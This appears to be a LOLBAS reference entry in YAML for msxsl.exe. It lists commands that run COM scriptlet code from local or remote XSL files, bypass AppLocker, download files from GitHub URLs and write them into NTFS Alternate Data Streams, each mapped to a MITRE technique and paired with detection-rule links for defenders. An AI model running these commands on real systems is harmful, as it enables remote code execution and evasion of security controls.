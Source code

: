 ```yaml
---
Name: msxsl.exe
Description: Command line utility used to perform XSL transformations.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>
    Description: Using remote XML and XSL files, save the transformed XML file to disk.
    Usecase: Download a file from the internet and save it to disk.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>:ads-name
    Description: Using remote XML and XSL files, save the transformed XML file to an Alternate Data Stream (ADS).
    Usecase: Download a file from the internet and save it to an NTFS Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564
    OperatingSystem: Windows
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wmic_xsl_script_processing.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_msxsl_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_msxsl_network.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://twitter.com/subTee/status/877616321747271680
  - Link: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
  - Link: https://github.com/RonnieSalomonsen/Use-msxsl-to-download-file
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Ronnie Salomonsen
    Handle: '@r0ns3n'
---
```

